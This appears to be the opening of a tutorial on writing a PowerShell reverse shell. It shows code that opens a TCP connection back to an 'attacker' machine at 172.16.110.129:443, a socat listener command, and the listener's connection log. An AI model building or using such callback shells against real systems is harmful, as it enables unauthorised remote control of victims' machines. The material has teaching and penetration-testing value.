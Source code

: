 First, let's define our scope based in everything said before, we will need:
* Connect to a remote host
* Receive data
* Run inside our Powershell
* Process output
* Send back

We need create each of this steps in Powershell scripting, so let's begin. 

To make a connection in some host, we will need create a socket, a TCP socket exactly, and this is available in .Net namespaces, more precisely in ***[System.Net.Sockets.TcpClient]***.

```powershell
$target = "172.16.110.129"
$port = 443

$client = New-Object System.Net.Sockets.TcpClient;
```

The ***New-Object*** directive allows us to create an object type in our memory, this has the same use of the ***new*** keyword, but here this create a .Net object in our Powershell script which allows us to access his features just like we are programming C# using .Net, this give us the ability to call TCPClient methods, take a look in this [C# tutorial](https://docs.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient?view=netcore-3.1), you will see that we are able to call exactly the same methods here, so let's connect to this target at this port!

```powershell
$target="172.16.110.129"
$port = 443

$client = New-Object System.Net.Sockets.TcpClient;
$client.Connect($target,$port);
# Our code go here
$client.Close();
```

In our "attacker" machine i will use [Socat](http://www.dest-unreach.org/socat/) instead Netcat, because this give us a lot of new options that Netcat will no support, such as fork connections to allow multiple connections, create an SSL Channel and so on.

```shell
sudo socat -d -d TCP4-LISTEN:443,fork STDOUT
```
This will open our 443 for multiple TCP connections and will print everything in our stdout, the ***-d*** is the debug level, so if you run the Powershell script command above, I will get something like that in our Linux:

```
$ sudo socat -d -d TCP4-LISTEN:443,fork STDOUT
2020/05/21 15:22:41 socat[1684] N listening on AF=2 0.0.0.0:443
2020/05/21 15:22:43 socat[1684] N accepting connection from AF=2 172.16.110.131:1315 on AF=2 172.16.110.129:443
2020/05/21 15:22:43 socat[1684] N forked off child process 1685
2020/05/21 15:22:43 socat[1684] N listening on AF=2 0.0.0.0:443
2020/05/21 15:22:43 socat[1685] N using stdout for reading and writing
2020/05/21 15:22:43 socat[1685] N starting data transfer loop with FDs [6,6] and [1,1]
2020/05/21 15:22:43 socat[1685] N socket 1 (fd 6) is at EOF
2020/05/21 15:22:44 socat[1685] N exiting with status 0
2020/05/21 15:22:44 socat[1684] N childdied(): handling signal 17
```
